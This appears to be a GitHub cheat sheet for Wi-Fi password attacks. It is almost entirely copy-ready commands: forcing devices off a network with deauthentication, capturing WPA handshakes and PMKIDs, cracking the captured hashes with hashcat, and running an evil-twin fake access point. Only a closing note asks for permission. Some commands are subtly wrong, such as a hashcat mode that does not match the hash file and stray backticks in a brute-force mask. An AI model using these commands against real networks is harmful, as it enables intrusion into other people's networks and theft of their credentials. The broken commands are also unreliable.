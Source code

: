 # 🧰 Wi-Fi Hacking Cheat Sheet

This cheat sheet covers essential Wi-Fi penetration testing techniques, including reconnaissance, handshake capture, and password cracking using `aircrack-ng`, `hcxtools`, and `hashcat`.

---

## 🔧 1. Interface Setup

### 🛑 Stop Network Services
```bash
sudo systemctl stop NetworkManager.service
sudo systemctl stop wpa_supplicant.service
```

### ▶️ Start Network Services
```bash
sudo systemctl start wpa_supplicant.service
sudo systemctl start NetworkManager.service
```

### 🛰️ Set Interface to Monitor Mode
```bash
sudo ip link set wlan0 down
sudo iw dev wlan0 set type monitor
sudo ip link set wlan0 up
```
> 💡 Replace `wlan0` with your actual network interface name (check with `ip a` or `iwconfig`).

---

## 🔍 2. Reconnaissance

### 🌐 Scan All Networks
```bash
sudo airodump-ng wlan0
```

### 🎯 Target Specific Access Point
```bash
sudo airodump-ng --bssid <BSSID> -c <CHANNEL> -w capture_file wlan0
```
> Replace `<BSSID>` with the AP's MAC address, and `<CHANNEL>` with the channel number.

---

## 💥 3. Capturing Handshakes

### ❌ Deauthentication Attack (Force Client Reconnect)
```bash
sudo aireplay-ng --deauth 10 -a <BSSID> wlan0 -c <CLIENT>
```

### 👻 Passive Capture Without Disconnecting Clients
```bash
sudo hcxdumptool -i wlan0 -w dumpfile.pcapng
```

---

## 🔄 4. Converting Capture Files

### 📦 From `.cap` to `.22000`
```bash
hcxpcapngtool -o wifi_hash.22000 -E essidlist.txt capture_file.cap
```

### 🧪 From `.pcapng` to `.22000`
```bash
hcxpcapngtool -o hash.22000 -E essidlist.txt dumpfile.pcapng
```

---

## 🔓 5. Cracking Passwords

### 📚 Using Dictionary Attack
```bash
hashcat -m 22000 -a 0 hash.22000 /path/to/wordlist.txt --force --show
```

### 🧮 Using Brute Force Attack
```bash
hashcat -m 22000 -a 3 hash.22000 ?d?d?l?u`!`$?d?d?d --force --show
```
> 🗂️ Replace `/path/to/wordlist.txt` with the actual path to your wordlist file.

---

## 🧠 6. Additional Attacks

### 🧬 PMKID Attack (WPA2/WPA3)
```bash
sudo hcxdumptool -i wlan0 -o pmkid.pcapng --enable_status 3
sudo hcxpcapngtool -o pmkid_hash.22000 pmkid.pcapng
hashcat -m 16800 pmkid_hash.22000 /path/to/wordlist.txt --force --show
```

### 👿 Evil Twin Attack (Fake Access Point)
```bash
sudo airbase-ng -e "FakeAP" -c <CHANNEL> wlan0
```

---

## 📎 Notes

- Make sure your wireless adapter supports monitor mode and packet injection.
- Consider using `airmon-ng check kill` before monitor mode if services interfere.
- Always run these commands responsibly, legally, and with permission.

---

